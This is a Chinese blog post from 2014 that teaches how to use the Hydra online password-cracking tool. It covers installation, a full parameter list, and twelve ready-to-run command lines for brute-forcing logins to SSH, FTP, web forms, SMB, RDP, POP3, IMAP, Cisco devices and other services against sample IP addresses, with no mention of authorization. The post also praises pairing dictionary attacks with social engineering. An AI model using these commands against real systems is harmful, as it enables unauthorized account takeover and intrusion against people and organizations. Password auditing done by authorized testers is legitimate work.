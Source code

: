 ```yaml
---
layout: post
title: "暴力密码破解工具--关键在于字典"
date: 2014-08-06 14:51:00 +0800
comments: false
categories:
- 2014
- 2014~08
- system
- system~tools
tags:
- hydra
---
```

http://www.ha97.com/5186.html  

* PS：这款暴力密码破解工具相当强大，支持几乎所有协议的在线密码破解，其密码能否被破解关键在于字典是否足够强大。对于社会工程型渗透来说，有时能够得到事半功倍的效果。

#### 一、简介
hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官 网：http://www.thc.org/thc-hydra  ，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。

#### 二、安装

如果是Debian和Ubuntu发行版，源里自带hydra，直接用apt-get在线安装：
```
sudo apt-get install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird2.1-dev libncp-dev hydra
```
Redhat/Fedora发行版的下载源码包编译安装，先安装相关依赖包：
```
yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel
```
hydra下载地址：  http://www.thc.org/releases/hydra-7.3.tar.gz  
```
	# tar zxvf hydra-7.0-src.tar.gz
	# cd hydra-7.0-src
	# ./configure
	# make
	# make install
```
hydra支持GUI图形界面。

#### 三、参数说明
```
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
```
server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项

#### 四、各种用法实例

简单演示：

破解成功，直接显示结果，上图画红线的地方就是破解出来的密码，也可以通过参数-o输出到文件里。如果字典够强大，结合社工，密码不用很久就出来。

```
	1、破解ssh：
	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
	hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh

	2、破解ftp：
	hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
	hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

	3、get方式提交，破解web登录：
	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

	4、post方式提交，破解web登录：
	hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"


	hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"

	（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，
	-f 当破解了一个密码就停止， 10.36.16.18目标ip，
	http-post-form表示破解是采用http的post方式提交的表单密码破解,
	<title>中 的内容是表示错误猜解的返回信息提示。）

	5、破解https：
	hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

	6、破解teamspeak：
	hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

	7、破解cisco：
	hydra -P pass.txt 10.36.16.18 cisco
	hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

	8、破解smb：
	hydra -l administrator -P pass.txt 10.36.16.18 smb

	9、破解pop3：
	hydra -l muts -P pass.txt my.pop3.mail pop3

	10、破解rdp：
	hydra ip rdp -l administrator -P pass.txt -V

	11、破解http-proxy：
	hydra -l admin -P pass.txt http-proxy://10.36.16.18

	12、破解imap：
	hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
	hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```

